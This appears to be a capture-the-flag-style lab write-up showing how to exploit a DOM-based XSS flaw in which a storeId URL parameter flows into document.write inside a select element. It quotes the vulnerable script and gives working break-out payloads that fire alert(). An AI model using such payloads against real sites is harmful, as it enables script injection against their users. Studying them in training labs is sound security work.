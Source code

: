 # Lab: DOM XSS in document.write sink using source location.search inside a select element

 This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 


# Step 1 Locate a location to test for DOM XSS on webapp

I find the document.write function for checking the stock of a product

![image](https://user-images.githubusercontent.com/83407557/211238756-70f19ee8-891f-4dd0-8791-f41fa09692be.png)

# Step 2 Use the source luke

Looking at the javascript:

```javascript

                                var stores = ["London","Paris","Milan"];
                                var store = (new URLSearchParams(window.location.search)).get('storeId');
                                document.write('<select name="storeId">');
                                if(store) {
                                    document.write('<option selected>'+store+'</option>');
                                }
                                for(var i=0;i<stores.length;i++) {
                                    if(stores[i] === store) {
                                        continue;
                                    }
                                    document.write('<option>'+stores[i]+'</option>');
                                }
                                document.write('</select>');
```

I a going want to break out of this select element using the StoreId source:

```javascript
document.write('<select name="storeId">');
```

So if I use the following:

```javascript
&storeId=BAD STUFF HERE
```
and add it onto the request for a product:

```
/product?productId=1&storeId=BAD STUFF HERE
```

I can see that "BAD STUFF HERE" is now one of the store options:

![image](https://user-images.githubusercontent.com/83407557/211239805-5d65e27c-70b8-47eb-8531-9af60f802915.png)

# Step 3 Break out of select element

Now that I can hijack the document.write sink, I still need to break out of the select element

```html
script
<select name="storeId">

breaking out
  "></select>BREAK OUT
```
So the new url would be

/product?productId=1&storeId="></select>BREAK OUT

![image](https://user-images.githubusercontent.com/83407557/211240727-c6b2e24c-cfd1-47c0-9d00-aa26a10c7362.png)

# Step 4 Use XSS once broken out

Now I know that this is how I am meant to solve this lab with a payload like:

/product?productId=1&storeId="></select><img src onerror=alert(1)>
                                             
Which I will show:

![image](https://user-images.githubusercontent.com/83407557/211241007-cb2aed49-0b75-4e86-ac96-72b6d6ceff3e.png)

![image](https://user-images.githubusercontent.com/83407557/211241039-9f19ebff-daac-4d1c-802e-037e701f56ff.png)

# Alternative

However, it is not required to close the select element to get XSS to fire off, and alternate payload could be something like 

/product?productId=1&storeId="><img src onerror=alert(2)>

![image](https://user-images.githubusercontent.com/83407557/211241288-4f2213f0-85fa-4e74-9870-3cdcf6f42f43.png)

And you can see why just looking at the elements in dev tools:

![image](https://user-images.githubusercontent.com/83407557/211241413-29d5b365-d9d0-47c1-89bb-359069944350.png)

Furthermore the "> isn't required either as just setting the storeId as a basic XSS payload with script tags will also work:

![image](https://user-images.githubusercontent.com/83407557/211241596-ca13f2ee-f5e4-4a97-ba32-19e7f2581dd6.png)

For the same reason:

![image](https://user-images.githubusercontent.com/83407557/211241621-80e8dae8-494c-4fd1-af90-7d1aec68bdf6.png)

Another option for searching for this would have been to use a canary from DOM invader, once the StoreId source was initially found:

![image](https://user-images.githubusercontent.com/83407557/211241811-b8c10709-8728-42c2-921e-234575373f55.png)
